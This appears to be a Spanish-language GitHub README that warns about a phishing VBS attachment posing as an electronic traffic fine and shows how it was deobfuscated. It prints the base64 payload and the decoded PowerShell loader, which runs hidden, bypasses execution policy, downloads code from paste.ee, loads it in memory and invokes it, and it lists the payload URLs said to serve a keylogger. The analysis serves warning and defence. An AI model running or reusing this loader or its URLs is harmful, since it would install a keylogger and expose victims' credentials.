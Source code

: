 # virus-sandbox

- ⚠️ NO ejecutar "Orden del Comparendo Electronico.vbs", este archivo es un virus que circula en diferentes correos electrónicos falsos. Para más información consulte [aquí] 
- ✔️ "decodificado.py" es seguro, elimina la ofuscación del virus que consiste en simples reemplazos e inversiones de strings. 

## :supervillain: El virus descifrado:
Con el archivo decodificado.py se puede observar que el virus contiene el siguiente código en base64:

Código base 64
```
JGRsbCA9ICcwLzhKTWgxL3IvZWUuZXRzYXAvLzpzcHR0aCc7JFJ1bXBlRCA9IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCAkZGxsWy0xLi4tJGRsbC5MZW5ndGhdIC1qb2luICcnICk7W0J5dGVbXV0gJFJ1bXBlID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZyggJFJ1bXBlRFstMS4uLSRSdW1wZUQuTGVuZ3RoXSAtam9pbiAnJyApO1tSZWZsZWN0aW9uLkFzc2VtYmx5XTo6TG9hZCgkUnVtcGUpLkdldFR5cGUoJ2VudC5DbGFzczEnKS5HZXRNZXRob2QoJ1J1bicpLkludm9rZSgkbnVsbCwgW29iamVjdFtdXSAoJ3R4dC4yNjYwMjQwODIxMS9zYnYvZXJvdHMuc2J2bGUvLzpwdHRoJykp;$OWjuxD =
```


```
[SystemBolSULeYnpTextBolSULeYnpEncoding]::ASCIIBolSULeYnpGetString( [SystemBolSULeYnpConvert]::FromBase64String($Codigo) );powershellBolSULeYnpexe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command $OWjuxD
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
```



## El base 64 decodificado:
```
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
$dll = '0/8JMh1/r/ee.etsap//:sptth';$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );[Byte[]] $Rumpe = [System.Convert]::FromBase64String( $RumpeD[-1..-$RumpeD.Length] -join '' );[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

Pueden evidenciarse dos urls desde donde se descargan otras cadenas en base64 que contienen un keylogger:
- https://paste.ee/r/1hMJ8/0
- http://elvbs.store/vbs/11280420662.txt


### Existen otros 170 archivos, muy posiblemente otras variaciones del virus en http://elvbs.store/vbs


[aquí]: https://www.virus.com.co/318/usted-presenta-con-comparendo-por-foto-multa
